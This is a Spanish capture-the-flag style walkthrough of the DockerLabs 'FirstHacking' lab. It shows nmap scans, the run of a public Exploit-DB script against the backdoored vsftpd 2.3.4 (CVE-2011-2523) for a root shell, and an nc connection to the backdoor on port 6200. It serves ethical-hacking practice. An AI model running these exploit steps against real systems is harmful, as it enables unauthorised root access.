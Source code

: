 ```yaml
---
title: FirstHacking
description: DockerLabs es una plataforma gratuita diseñada para practicar hacking ético al alcance de todo el mundo utilizando Docker. DockerLabs ofrece un entorno seguro y accesible para desplegar laboratorios vulnerables de la forma más eficiente y sencilla posible.
date: 2025-01-03
toc: true
pin: false
image:
 path: /assets/img/dockerlabs-writeup-firsthacking/firsthacking_logo.png
categories:
  - Docker_Labs
tags:
  - linux
  - dockerlabs
  - ftp
  - tcp
  - cve
  - information_gathering
  - cve_exploitation
  - backdoor

---
```

## Information Gathering

El análisis inicial comienza con el comando ping para confirmar la accesibilidad de la máquina objetivo en la red.

```terminal
/home/kali/Documents/dockerlabs/firsthacking:-$ ping -c 1 127.17.0.2
PING 127.17.0.2 (127.17.0.2) 56(84) bytes of data.
64 bytes from 127.17.0.2: icmp_seq=1 ttl=64 time=0.046 ms

--- 127.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.046/0.046/0.046/0.000 ms
```

Realizo un escaneo agresivo de puertos con nmap, lo que me permite identificar rápidamente todos los puertos abiertos.

```terminal
/home/kali/Documents/dockerlabs/firsthacking:-$ sudo nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv -oG nmap1 127.17.0.2
Host: 127.17.0.2 ()     Status: Up
Host: 127.17.0.2 ()     Ports: 21/open/tcp//ftp///	Ignored State: closed (65533)
```

Profundizo en los puertos detectados, recopilando información detallada sobre los servicios y versiones en ejecución.

```
/home/kali/Documents/dockerlabs/firsthacking:-$ sudo nmap -sCV -p21 -vvv -oN nmap2 127.17.0.2
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 64 vsftpd 2.3.4
Service Info: OS: Unix
```

---
## CVE Exploitation

El escaneo revela que en el puerto 21 está corriendo ```vsftpd``` versión ```2.3.4```, busco exploits públicos relacionados usando searchsploit.

```terminal
/home/kali/Documents/dockerlabs/firsthacking:-$ searchsploit vsftpd 2.3.4
```

![](assets/img/dockerlabs-writeup-firsthacking/firsthacking1.png)

```terminal
/home/kali/Documents/dockerlabs/firsthacking:-$ cp /usr/share/exploitdb/exploits/unix/remote/49757.py .
```

Este exploit está escrito en Python y requiere la instalación de la librería [telnetlib3](https://pypi.org/project/telnetlib3/). Para instalarla, utilizo pip en un entorno virtual de Python.

```terminal
(Entorno_Python)-/home/kali/Documents/dockerlabs/firsthacking:-$ pip install telnetlib3
```

El exploit tiene éxito y me otorga acceso a una shell con privilegios de root en el sistema.

```terminal
(Entorno_Python)-/home/kali/Documents/dockerlabs/firsthacking:-$ python3 49757.py 127.17.0.2
/home/kali/Documents/dockerlabs/firsthacking/49757.py:11: DeprecationWarning: 'telnetlib' is deprecated and slated for removal in Python 3.13
  from telnetlib import Telnet
Success, shell opened
Send `exit` to quit shell
id
uid=0(root) gid=0(root) groups=0(root)
```

> Para explotar esta misma vulnerabilidad con Metasploit, consultar el writeup [Tproot](https://litio7.github.io/posts/dockerlabs-writeup-tproot/).
{: .prompt-tip }

---
## Backdoor

La vulnerabilidad [CVE-2011-2523](https://nvd.nist.gov/vuln/detail/CVE-2011-2523) está relacionada con un backdoor que se introduce cuando el servicio FTP es comprometido. Este backdoor abre el puerto 6200 y permite conexiones entrantes, para obtener acceso a la máquina afectada.

```terminal
/home/kali/Documents/dockerlabs/firsthacking:-$ sudo nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv -oG nmap1.2 127.17.0.2
Host: 127.17.0.2 ()     Status: Up
Host: 127.17.0.2 ()     Ports: 21/open/tcp//ftp///, 6200/open/tcp//lm-x///      Ignored State: closed (65533)

/home/kali/Documents/dockerlabs/firsthacking:-$ sudo nmap -sCV -p21,6200 -vvv -oN nmap2.2 127.17.0.2
PORT     STATE SERVICE REASON         VERSION
21/tcp   open  ftp     syn-ack ttl 64 vsftpd 2.3.4
6200/tcp open  lm-x?   syn-ack ttl 64
| fingerprint-strings: 
|   GenericLines: 
|     sh: 1: 
|     found
|_    found
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port6200-TCP:V=7.94SVN%I=7%D=1/3%Time=67785E8D%P=x86_64-pc-linux-gnu%r(
SF:GenericLines,28,"sh:\x201:\x20\r:\x20not\x20found\nsh:\x202:\x20\r:\x20
SF:not\x20found\n");
Service Info: OS: Unix
```

A través del puerto 6200, es posible conectarse a la máquina utilizando Netcat y obtener acceso con privilegios de root.

```terminal
/home/kali/Documents/dockerlabs/firsthacking:-$ nc 127.17.0.2 6200
id
uid=0(root) gid=0(root) groups=0(root)
```
